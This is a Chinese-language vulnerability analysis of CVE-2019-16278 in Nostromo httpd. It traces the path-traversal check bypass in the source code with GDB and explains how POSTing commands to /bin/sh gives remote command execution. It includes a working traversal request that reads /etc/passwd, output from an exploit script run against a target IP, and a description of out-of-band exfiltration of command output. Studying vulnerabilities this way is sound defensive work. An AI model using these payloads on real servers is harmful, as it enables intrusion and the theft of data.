# （CVE-2019-16278）Nostromo httpd 命令执行

> 原文：[https://www.zhihuifly.com/t/topic/3052](https://www.zhihuifly.com/t/topic/3052)

# （CVE-2019-16278）Nostromo httpd 命令执行

## 一、漏洞简介

Nostromo httpd 1.9.6及之前版本中的‘http_verify’函数存在路径遍历漏洞。该漏洞源于网络系统或产品未能正确地过滤资源或文件路径中的特殊元素。攻击者可利用该漏洞访问受限目录之外的位置。

## 二、影响范围

Nostromo httpd 1.9.6及之前版本中

## 三、复现过程

### 漏洞分析

***GDB动态调试***
从公布的漏洞详情可知，造成漏洞的原因是[http_verify](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16278)函数对路径校验不严导致的。先`make clean`清理一下编译过程中产生的目标文件，然后grep搜索http_verify函数所在的源码文件，从搜索结果可知，main函数里面调用了http_verify，代码实现在http.c文件中:



打开http.c文件，http_verify函数描述及部分关键代码如下

```
/*
 * http_verify()
 *  verify if incoming header is valid
 * Return:
 *  0 = invalid header, 1 = valid header
 */
int
http_verify(char *header, const int header_size, const char *cip, const int sfd,
    const int hr)
{
    int     r, proto;
    char        *h, *b, line[1024], protocol[16];
    time_t      tnow;
    struct tm   *t;

```
r = proto = 0;

/* check if header URI needs to be decoded */
if (http_decode_header_uri(header, header_size) == -1) {
    h = http_head(http_s_400, "-", cip, 0);
    b = http_body(http_s_400, "", h, 0);
    ......SNIP......
    return (0);
}

......SNIP......

/* check for valid uri */
if (strstr(header, "/../") != NULL) {
    h = http_head(http_s_400, line, cip, 0);
    b = http_body(http_s_400, "", h, 0);
    ......SNIP......
    return (0);
}
......SNIP...... 
``` `}` 
```

分析代码，首先调用http_decode_header_uri函数对请求中URL编码的字符进行解码，然后使用strstr函数检测hader字符串中是否包含`/../`字符串，如果包含就直接返回400错误。从代码逻辑可知，这里strstr检测方法有点暴力，它不允许header中存在`/../`字符串，即使是”合法”的目录回溯也不允许，比如存在以下形式的工程目录：



先进入test目录，然后回溯访问首页index.html，这类合法的请求也会报400错误，如下：



具体GDB动态调试看一看，先使用命令`start-stop-daemon --stop -x /usr/local/sbin/nhttpd`停止已经运行的nhttpd，然后再启动gdb，因为需要调试的代码在子进程中，所以需要`set follow-fork-mode child`，具体如下：



重放数据包，程序自动停止在http_verify函数，调试过程如下，可以看见被url编码的`..`符号先被解码，然后被strstr函数检测到并返回400错误：



从调试结果可知，header变量代表的是整个http请求头，假如请求头中的其他属性携带有`/../`字符串一样会被strstr函数检测，这种一刀切的暴力检测方法明显存在不合理之处。
到这里，我们知道http_verify函数只是对请求头做了些解码检测的操作，如何绕过检测，看样子还得继续分析后续的代码逻辑。从开始grep搜索结果可知，http_verify函数是在main.c中被调用的，代码如下：



如果发送的是一个正常http请求，根据http_verify函数检测逻辑可知，如果验证全部通过，则返回1，所以1570行的if判断结果为true，接着进入http_proc函数，该函数定义也在http.c文件中，部分代码如下：



分析代码，关键代码是290行if语句中的http_header函数，根据注释可知该函数主要是对请求头进行解析，从296行代码开始就是处理response了。
跟进http_header函数，函数定义同样在http.c文件中，该函数处理完成之后返回一个结构体指针:



搜索结构体定义，在extern.h文件中，有兴趣的朋友可以自己看看，这里就不贴出来了：



继续分析http_header函数，先初始化header结构体，初始化完成以后开始解析request，具体代码如下：



下个断点，调试看看变量的具体值：

根据调试结果可知，1500行的strcutl函数先把请求头中的接口协议等信息解析出来放在line变量中，然后在1502行把接口赋值给header结构体的rq_uri成员。接口解析的主要逻辑在strcutl函数里面，搜索下函数定义，结果如下：



strcutl函数代码详情如下：



简单分析下代码，可知该函数主要是通过换行符(*LF，ASCII转义字符\n*)为特征来截取request中的第一行数据（*接口、协议*）信息。核心代码是56和57行，第56行先判断字符是不是回车符号，如果不是就执行57行代码，把符合规则的字符赋值给dst指针。这里重点看56行代码，它会检测`\r`符号，结合上下文可知，如果检测到了回车符，会自动把回车符号删掉，而不影响后续字符的拼接。
所以，如果在`/../`中插入回车符号，不就可以绕过http.c中http_verify函数的检测而不影响语义吗？

### 漏洞复现

根据上述的代码分析可知，可以在`/../`字符串中插入回车符号绕过http_verify函数的检测，然后程序会在strcutl函数里面自动把回车符号删除恢复原本语义，构造poc如下：

```
GET /..%0d/..%0d/..%0d/..%0d/..%0d/..%0d/etc/passwd HTTP/1.1 
```

测试结果如下，成功读取etc/passwd文件内容



### poc

> https://github.com/ianxtianxt/CVE-2019-16278/

```
➜  Downloads python nostromo.py 114.114.114.114 8080 pwd
/bin
➜  Downloads python nostromo.py 114.114.114.114 8080 id
uid=65534 gid=65534
➜  Downloads python nostromo.py 114.114.114.114 8080 "ls -al"
drwxr-xr-x    2 0        0                0 Apr 12  2013 .
drwxr-xr-x   16 0        0                0 Jan  1  1970 ..
lrwxrwxrwx    1 0        0                7 Apr 12  2013 ash -> busybox 
```

### poc分析

该漏洞最初公布的poc可以达到远程命令执行的效果，如下所示



对于孤陋寡闻，只知道利用目录遍历读取etc/passwd的菜鸟笔者来说，能利用目录遍历实现RCE还是一件非常新奇的事情，所以决定好好学习下这个脚本，先看看大佬公布的poc：



脚本还是比较简单，就是利用nc发送了一个post请求包，post参数是两个echo字符串加需要执行的命令。运行poc脚本，用HTTP Analyzer抓下post请求包，结果只要开启抓包工具就返回500错误，最后发现用Wireshark能记录到数据包：



把post请求复制到burp里面，重放数据包，结果又报500错误…两个字，讲究！！用Wireshark抓包对比sh脚本和burp发包的二进制流，发现问题出在burp发送的数据包在echo参数换行时多了回车符（CR，URL编码%0d），在Hex编辑器里面删除回车符，重放数据包，成功执行命令：



分析request可知，就是请求了/bin/sh这个shell，然后shell执行了post参数中的命令。回到代码中，结合前面的分析过程，先把断点下在http.c的290行，使用burp重放数据包，程序自动停止在断点处：



从调试结果可以看见，header参数只包含头信息，所以可以先不用继续分析http_header函数。直接next命令，然后一直回车，最后发现代码运行到如下位置：



这里可以看见就是利用execve函数执行了sh可执行文件，next运行execve函数，结果如下，最终执行了指定的命令：



析RCE的部分，可知能够远程命令执行的原因是execve函数执行了指定的sh程序，但是传入的命令是怎么被执行的，POST参数中为什么要传入两个echo\n，为什么要使用HTTP 1.0协议这些疑问都还没解决，本着刨根问底的求知精神，下面我们一起继续分析，看看一个正常使用HTTP 1.1协议的POST请求能否实现RCE。

### 1\. 了解IPC-管道

管道是一种最基本的IPC（Inter-Process Communication，进程间通信）机制，由pipe函数创建，它是半双工的，数据只能在一个方向上流动，想要双方通信，就需要建立起两个管道。管道只能用于具有共同祖先的进程之间进行通信，通常，一个管道由一个进程创建，然后该进程调用fork，此后父子进程之间就可以应用该管道。具体应用场景见如下示例:

```
#include <unistd.h> `int main(){

int pfds[2];

char *command = “whoami”;

/*

* pipe创建管道，创建成功返回0

* pfds返回两个文件描述符:

*   pfds[0]:指向管道的读端

*   pfds[1]:指向管道的写端

*   pfds[1]的输出是pfds[0]的输入

*/

if(pipe(pfds) == 0){

//fork返回0，子进程

if(fork() == 0){

//关闭管道的写端

close(pfds[1]);

//复制文件描述符，让stdin(标准输入)指向管道的读端，相当于stdin的数据是由pfds[1]写入的

dup2(pfds[0],0);

//定义传递给程序的参数，数组指针argv必须以程序(filename)开头，NULL结尾

char *argv[ ]={“sh”, NULL};

//定义程序运行的环境变量，默认环境变量

char *envp[ ]={0, NULL};

//执行sh程序，显式传递给sh程序的argv参数为空

execve("/bin/sh", argv, envp);

}

//父进程

else{

//关闭管道的读端

close(pfds[0]);

//把需要执行的命令写入到管道的写端，然后在管道的读端获取命令

write(pfds[1],command,6);

}

}

return 0;

}` 
```

简单看看代码，先使用pipe函数新建管道并fork一个子进程，在父进程中使用write函数把需要执行的命令写入管道的写端，然后在子进程中使用dup2函数复制文件描述符，让系统的标准输入(stdin)指向管道的读端，此时stdin的数据就是whoami命令，最后execve执行sh程序后，虽然没有直接给sh程序传递参数，但是sh会自己在标准输入里面找参数。编译运行程序，结果如下:



sh执行了stdin里面的whoami命令，相当于命令与命令之间使用管道符通信，`command1`的标准输出会作为`command2`的标准输入使用:


### 2\. RCE原理分析

接着上篇文章的分析，GDB动态调试定位到execve函数位置，如下所示



可以看见在execve函数中传递给sh程序的参数cgiarg为空，运行完execve函数后就自动执行了指定命令。sh程序是怎么执行id命令的呢，一起来看看源码`./src/nhttpd/http.c`，关键代码如下:

```
 ......SNIP......
 462                 /* create pipes to communicate with cgi */
 463                 if (pipe(fds1) == -1) {
 464                         syslog(LOG_ERR, "can't fork cgi: pipe fds1: %s",
 465                             strerror(errno));
 466                         exit(1);
 467                 }
 468                 if (pipe(fds2) == -1) {
 469                         syslog(LOG_ERR, "can't fork cgi: pipe fds2: %s",
 470                             strerror(errno));
 471                         exit(1);
 472                 }
 473 
 474                 /* fork child for cgi */
 475                 if ((cpid = fork()) == -1) {
 476                         syslog(LOG_ERR, "can't fork cgi: fork: %s",
 477                             strerror(errno));
 478                         exit(1);
 479                 }
 480 
 481                 /* cgi */
 482                 if (cpid == 0) {
 483                         /* child dont need those fds */
 484                         close(fds1[1]);
 485                         close(fds2[0]);
 486 
 487                         if (chdir(rh->rq_filep) == -1) {
 488                                 syslog(LOG_ERR, "can't fork cgi: chdir: %s",
 489                                     strerror(errno));
 490                                 exit(1);
 491                         }
 492                         dup2(fds1[0], STDIN_FILENO);
 493                         dup2(fds2[1], STDOUT_FILENO);
 494 
 495                         /* build cgi environment array */
 ......SNIP......
 580 
 581                         execve(rh->rq_filef, cgiarg, cgienv); //here
 582                         exit(0);
 583                 }
 584 
 585                 /* parent dont need those fds */
 586                 close(fds1[0]);
 587                 close(fds2[1]);
 588 
 589                 /* if post send data to cgis stdin */
 590                 if (!strcasecmp(rh->rq_method, "POST")) {
 591                         rp = 0;
 592                         rt = 0;
 593                         size = atoi(rh->rq_fv_clt);
 594 
 595                         if (size > 0) {
 596                                 if (blen > 0) {
 597                                         r = http_body_comp(body, blen, blen,
 598                                             size);
 599                                         if (r > 0)
 600                                                 sys_write(fds1[1], body, r);
 601                                         else
 602                                                 sys_write(fds1[1], body, blen);
 603                                 }
 604 
 ......SNIP......
 630                         }
 631                 }
 632                 /* close fd to cgi stdin */
 633                 close(fds1[1]);
 ......SNIP...... 
```

462-479行创建管道并fork一个子进程运行CGI，关键代码是第600行处理POST参数，把参数写入管道的写端，这里的sys_write函数是write函数的封装，其实现在`./src/nhttpd/sys.c`文件，然后在子进程第492行把POST参数复制到标准输入(stdin)，最后581行execve运行的sh程序在标准输入找到用户传入的POST参数命令并执行。

### 3\. 利用OOB技术回显

如果仔细分析一下EXP，会发现该漏洞的EXP非常的讲究，其POST参数传递的命令之前必须存在两个`echo\n`字符，并且必须使用HTTP 1.0协议，否则服务器就会响应500，执行的命令结果不能正常回显。因笔者对CGI不太熟悉，所以没有再对EXP中的特殊字符和协议进一步深究。那一个正常的HTTP 1.1协议的POST请求可以完成远程代码执行吗？如下所示，使用一个正常的POST请求并发送一条命令，结果如下



服务端返回500错误，GDB调试一下，发现execve函数是正常执行了id命令的，所以EXP中的`echo\n`字符和HTTP 1.0协议的目的是为了让命令执行结果能在response中直接回显。既然正常的HTTP请求也可以命令执行，那有办法获取到命令执行的结果吗？如果目标服务器有外网访问权限，带外数据(Out of Band, OOB)技术是解决无回显的有效办法。我们可以直接利用Burp Suite提供的Burp Collaborator client模块，执行命令如下



结果如下，成功获取到命令执行结果



## 参考链接

> https://curz0n.github.io/2019/10/22/cve-2019-16278/
> https://curz0n.github.io/2020/03/09/cve-2019-16278-2/